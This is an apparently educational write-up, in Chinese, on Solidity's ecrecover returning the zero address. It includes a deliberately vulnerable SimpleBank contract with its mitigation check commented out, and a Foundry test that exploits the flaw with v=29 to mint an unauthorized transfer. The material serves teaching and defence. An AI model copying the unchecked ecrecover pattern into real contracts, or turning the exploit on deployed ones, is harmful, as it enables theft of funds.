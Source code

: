 # ecRecover 返回(0)地址

**名称：** ecrecover 返回(0)地址

**说明：** 在 SimpleBank 合约中，转账函数将消息哈希和签名（v、r、s 值）作为输入。 它恢复签名者地址并检查它是否等于 Admin。 该漏洞在于，当签名参数无效时，ecrecover函数可能会返回0x0地址，如果v值不是27或28，则会返回(0)地址。

**解决措施：**

验证 ecrecover 的结果不为 0，或者使用 OpenZeppelin 的 ECDSA 库。

**参考：**

https://twitter.com/1nf0s3cpt/status/1674268926761668608

https://github.com/code-423n4/2021-09-swivel-findings/issues/61

https://github.com/Kaiziron/numen_ctf_2023_writeup/blob/main/wallet.md

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    mapping(address => uint256) private balances;
    address Admin; //default is address(0)

    function getBalance(address _account) public view returns (uint256) {
        return balances[_account];
    }

    function recoverSignerAddress(
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) private pure returns (address) {
        address recoveredAddress = ecrecover(_hash, _v, _r, _s);
        return recoveredAddress;
    }

    function transfer(
        address _to,
        uint256 _amount,
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public {
        require(_to != address(0), "Invalid recipient address");

        address signer = recoverSignerAddress(_hash, _v, _r, _s);
        console.log("signer", signer);
        //Mitigation
        //require(signer != address(0), "Invalid signature");
        require(signer == Admin, "Invalid signature");

        balances[_to] += _amount;
    }
}
```

***\*测试方法:\****

仿真测试--contracts src/test/***\*ecrecover.sol\**** -vvvv

```jsx
// Function to test a ecRecover vulnerability
    function testecRecover() public {
        // Emits a log with the balance of the current contract before exploitation
        emit log_named_decimal_uint(
            "Before exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );

        // Generates a message hash
        bytes32 _hash = keccak256(
            abi.encodePacked("\\x19Ethereum Signed Message:\\n32")
        );

        // Signs the generated hash using vm.sign function. Here, 1 represents the account index
        // The returned variables r and s are part of the ECDSA signature (Elliptic Curve Digital Signature Algorithm)
        (, bytes32 r, bytes32 s) = vm.sign(1, _hash);

        // Sets the v variable to 29
        // Typically in Ethereum, v is 27 or 28. When v is neither 27 nor 28, 
        // the ecrecover function used for signature validation will return address(0)
        uint8 v = 29;

        // Calls the transfer function of the SimpleBankContract with an incorrect v value
        // If SimpleBankContract does not correctly validate the v value of the signature,
        // this could lead to an unauthorized transfer
        SimpleBankContract.transfer(address(this), 1 ether, _hash, v, r, s);

        // Emits a log with the balance of the current contract after the exploit
        emit log_named_decimal_uint(
            "After exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );
    }
```

**红色框：返回零地址。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe8189c2a-67a9-4ddc-8a03-be3b2bdcce6a%2FUntitled.png?table=block&id=5f54d930-33e2-4f0a-87d5-98ce4bcb4a11&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)